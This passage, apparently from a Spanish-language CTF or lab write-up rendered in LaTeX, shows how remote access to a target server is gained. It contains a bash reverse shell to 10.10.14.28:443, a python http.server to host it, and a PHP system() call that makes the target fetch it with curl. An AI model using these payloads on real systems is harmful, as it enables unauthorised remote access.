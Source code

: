 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
y tambien functiona\ldots{}

Aqui decidimos crear una reverse shell para connectarnos al servidor.

\hypertarget{vuln-exploit-gaining-access-5}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-5}}

\hypertarget{crear-una-reverse-shell-con-una-pagina-html}{%
\subsection*{Crear una reverse shell con una pagina html}\label{crear-una-reverse-shell-con-una-pagina-html}}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un index.html

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/bin/bash}

\FunctionTok{bash}\NormalTok{ -i }\OperatorTok{>}\KeywordTok{&} \ExtensionTok{/dev/tcp/10.10.14.28/443} \OperatorTok{0>&1}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servicio http por el puerto 80

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  En la web, le damos un curl a nuestra maquina

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php} \FunctionTok{system}\OtherTok{(}\StringTok{"curl 10.10.14.28"}\OtherTok{);} \KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\end{enumerate}
\end{document}
